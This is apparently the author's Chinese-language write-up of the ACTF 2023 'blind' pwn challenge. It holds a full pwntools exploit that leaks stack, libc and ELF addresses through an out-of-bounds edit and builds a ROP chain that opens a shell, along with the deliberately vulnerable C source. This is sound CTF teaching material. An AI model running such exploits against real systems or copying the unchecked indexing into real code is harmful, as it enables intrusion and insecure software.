 # ACTF2023 blind WP

## 解题思路

这道题提供了字符编辑功能，玩两下就可以发现存在越界编辑

改改周围看下会发生什么——

```
[A]aaaaaa
> 8DW
aaaaaa 
> AS
Aaaaaaa[]
```

当右移8再+1后，我们发现输出位置改变了，说明改到了字符串指针，那么`8D8W`就可以输出这个指针本身的值，发现是`0x7fff`开头的栈上地址。那么只要修改这个指针就可以dump stack。

然后搞清楚程序修改的机制：首先显而易见的我们可以知道有两个指针——一个是每次输出字符串name的地址，一个是当前修改的位置。那么修改的位置是独立指针，还是基于名字的偏移？我们发现在`8DW`后需要`AS`才能恢复原状，也就是说在修改指针地址后，当前修改的位置也偏移了。这就说明输出的是指针，而`[]`是一个下标。于是我们大概可以还原出这样的代码：

```c
switch(toupper(ch)) {
    case 'W': p[cursor] += times; break;
    case 'A': cursor -= times; break;
    case 'S': p[cursor] -= times; break;
    case 'D': cursor += times; break;
    case ' ': p[cursor] ^= 0x20; break;
    case '\n': break;
    default : printf("Invalid: %c\n", ch);   break;
}
```

还有一个问题是，修改指针后是否立即生效？试一下`8DWS`发现输出还是Aaaaaaa，说明修改偏移是即时的，而修改指针会在下一次生效。也就是说修改时传入的是指针副本。于是又可以还原出一些逻辑。

```c
int main() {
	char namebuf[0x8];
    char *ptr = namebuf;
...
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr)); // 传入了指针的副本，当次修改不影响指向
    printf("Hello, %s!\n", ptr);
    return 0;
}
```

这样就可以任意修改和泄露了。栈上有libc、elf以及栈的地址，泄露后把偏移改到`elf&0xfffffffff000`的位置leak，然后ROPGadget找到`pop rdi; ret`的地址，用DynELF解`system`，把名字改成`/bin/sh`，ret2csu即可。（作为一个良心出题人，给大家用了2.31。如果是2.35就要去dump libc了;）

exp：

```python
#! /usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    : std.py
@Time    : 2023/10/6 Mon 19:02:36
@Author  : Wh1sper
@Desc    : exp for ACTF 2023 blind
'''

from pwn import *

context.update(arch='amd64', os='linux', log_level='debug', timeout=None)

io = remote('120.46.65.156', 32104)

base, offset = 0, 0
def Off(pos): # 将[]修改到指定偏移
    global offset
    cnt = pos - offset
    offset = pos
    if cnt > 0:
        return str(cnt).encode() + b'D'
    else:
        return str(-cnt).encode() + b'A'

def setval(_offset, orig, to): # 修改base[_offset]的值为to，需要知道original
    payload = b''
    for (i, (b, a)) in enumerate(zip(orig, to)):
        change = a - b
        if change != 0:
            payload += Off(_offset + i)
        if change > 0:
            payload += str(change).encode() + b'W'
        elif change < 0:
            payload += str(-change).encode() + b'S'
    return payload

def Base(addr): # 将base指针修改到指定位置
    global base
    payload = setval(stack_addr - base, p64(base), p64(addr))
    base = addr
    return payload

def leak(addr): # base到指定位置然后输出
    payload = Base(addr) + Off(-1)
    io.sendlineafter(b"> ", payload)
    ret = io.recvuntil(b'\n> ', drop=True)
    io.unrecv(b'> ')
    return ret

def dump_elf(baseaddr):
    with open('dump', 'wb') as f:
        for i in range(0x1000 // 8):
            print(hex(i))
            f.write(leak(baseaddr + i * 8))
    print("dump done.")
    exit(0)

payload = setval(0, b'Aaaaaaa', b'/bin/sh')
io.sendlineafter(b"\n> ", payload)

payload = Off(8) + b'8W'
io.sendlineafter(b"> ", payload)
stack_addr = u64(io.recvuntil(b"\n", drop=True))
log.success(f'Leak stack: {stack_addr:#014x}')
base = stack_addr

# Step 1: View stack.
# for i in range(20):
#     print(f"{i:#x}: {u64(leak(stack_addr + i * 8)):#014x}")
# exit(0)

libc_addr = u64(leak(stack_addr + 0x10))
log.success(f'Leak libc: {libc_addr:#014x}')
elf_addr = u64(leak(stack_addr + 0x28))
log.success(f'Leak elf: {elf_addr:#014x}')

# Step 2: Dump elf
# dump_elf(elf_addr & 0xfffffffff000)

d = DynELF(leak, libc_addr, libcdb=False)
system_addr = d.lookup('system', 'libc')
log.success(f'Leak system: {system_addr:#014x}')

val_0x18 = u64(leak(stack_addr + 0x18))
val_0x20 = u64(leak(stack_addr + 0x20))
poprdi_ret = 0x5db + (elf_addr & 0xfffffffff000) # ROPgadget --binary dump --rawArch=x86 --rawMode=64 | grep "pop rdi ; ret"
io.sendlineafter(b"> ", Base(stack_addr))
io.sendlineafter(b"> ", setval(0x10, p64(libc_addr), p64(poprdi_ret))) # poprdi, ret
io.sendlineafter(b"> ", setval(0x18, p64(val_0x18), p64(stack_addr - 8))) # binsh_addr
io.sendlineafter(b"> ", setval(0x20, p64(val_0x20), p64(poprdi_ret + 1))) # ret
io.sendlineafter(b"> ", setval(0x28, p64(elf_addr), p64(system_addr))) # system
io.sendlineafter(b"> ", b'')

context.log_level = 'info'
io.interactive()

```

## 解题情况

大家的解法和官方解相差无几。一些队伍leak libc地址后查到了版本是`Debian GLIBC 2.31-13+deb11u7`，可以不用dump直接打ROP。

星盟的师傅非常牛逼，在不dump程序的情况下爆破到了ROP gadget。具体做法是：

1. 由于8A（name往低8字节）存放了返回地址，所以把name修改为栈上泄露的elf地址，通过name-0x8位置爆破前面泄露出来的elf函数附近的ret。
2. 通过布置栈（将返回地址放到name[0x30]），爆破csu的pop6_gadget。

这样就无需dump可以直接打了（需要用DynELF解出system地址），666

## 题目源码

不同gcc版本编译偏移可能会有变化，题目用的镜像是`debian 11(bullseye)`

```c
// gcc src.c -o blind
#include <stdio.h>
#include <stdlib.h>
#include <ctype.h>
#include <string.h>

ssize_t cursor = 0;
int process(char *p) {
    char *ops = NULL;
    int has_d = 0;
    size_t bufsize;
    ssize_t i = 0, len, rep;
    if ((len = getline(&ops, &bufsize, stdin)) == -1) {
        puts("Error.");
        exit(EXIT_FAILURE);
    } else if (len == 1) {
        free(ops);
        return 0;
    }
    while (i < len) {
        char ch = ops[i++];
        ssize_t times;
        if (isdigit(ch)) {
            rep = rep * 10 + (ch - '0');
            has_d = 1;
            continue;
        }
        times = has_d ? rep : 1;
        switch(toupper(ch)) {
            case 'W': p[cursor] += times; break;
            case 'A': cursor -= times; break;
            case 'S': p[cursor] -= times; break;
            case 'D': cursor += times; break;
            case ' ': p[cursor] ^= 0x20; break;
            case '\n': break;
            default : printf("Invalid: %c\n", ch);   break;
        }
        rep = 0;    has_d = 0;
    }
    free(ops);
    return 1;
}
void print(char *p) {
    int i;
    for (i = 0; i < 0x8; ++i) {
        if (i == cursor)
            printf("[%c]", p[i]);
        else
            printf("%c", p[i]);
    }
}
int main() {
    char namebuf[0x8];
    char *ptr = namebuf;
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    memset(namebuf, 'a', sizeof(namebuf));
    namebuf[0] ^= 0x20;
    namebuf[sizeof(namebuf) - 1] = 0;
    puts("Welcome to ACTF, type your name here.");
    puts("Use A/D to move, W/S to change letter, <Space> to change Capital. You can add prefix n to repeat W/A/S/D command(3A2W = AAAWW), just like vi. When you finish it, send a single <Enter> to submit.");
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr));
    printf("Hello, %s!\n", ptr);
    return 0;
}

```


